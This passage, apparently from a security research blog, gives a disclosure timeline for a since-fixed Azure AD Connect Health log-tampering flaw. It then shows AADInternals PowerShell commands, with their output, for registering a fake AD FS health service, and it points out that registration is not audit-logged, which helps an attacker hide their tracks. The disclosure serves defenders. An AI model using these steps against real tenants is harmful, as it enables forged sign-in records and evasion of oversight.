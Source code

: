 **Timeline:**

Date | Activity
---  | ---
May 30th 2021 | Discovery of the vulnerability
May 31st 2021 | Reported the vulnerability to Microsoft
Jun  6th 2021 | Shared tool with Microsoft to reproduce the issue
Jun 16th 2021 | Microsoft confirmed the behaviour and indicated reviewing the report for a bounty award
Jul  2nd 2021 | Microsoft awarded bounty of 10000 USD (Severity: Important, Security Impact: Spoofing)
Jul  2nd 2021 | Disagreed with the severity and impact - spoofing is spoofing and tampering is tampering..
Jul  6th 2021 | Microsoft reported that a fix had been applied
Jul  7th 2021 | Confirmed the fix adressed the issue: <br><br>Now all events will get a randomly generated **Request ID** so the tampering is not possible anymore.


# Registering fake agents with AADInternals v0.5.0 and later

Creating fake log-in events using an existing agent requires local administrator access to the server where the agent is installed. With **Global Administrator** permissions, this can also be done remotely,
as fake agents can be registered from any computer with internet connect - even for tenants which do not have AD FS.

**Note:** For some reason, the **registration events are not logged to the audit log**, making it very easy to hide your tracks!

## Registering hybrid health service
First, we need to create a new hybrid health service:

{{< highlight powershell>}}
# Get an access token and save it to the cache:
Get-AADIntAccessTokenForAzureCoreManagement -SaveToCache

# Create a new AD FS service
New-AADIntHybridHealthService -DisplayName "sts.company.com" -Signature "sts.company.com" -Type AdFederationService
{{< /highlight>}}

```
activeAlerts                             : 0
additionalInformation                    : 
createdDate                              : 2021-07-12T07:25:29.1009287Z
customNotificationEmails                 : 
disabled                                 : False
displayName                              : sts.company.com
health                                   : Healthy
lastDisabled                             : 
lastUpdated                              : 0001-01-01T00:00:00
monitoringConfigurationsComputed         : 
monitoringConfigurationsCustomized       : 
notificationEmailEnabled                 : True
notificationEmailEnabledForGlobalAdmins  : True
notificationEmails                       : 
notificationEmailsEnabledForGlobalAdmins : False
resolvedAlerts                           : 0
serviceId                                : 189c61bb-2c9c-4e86-b038-d0257c6c559e
serviceMembers                           : 
serviceName                              : AdFederationService-sts.company.com
```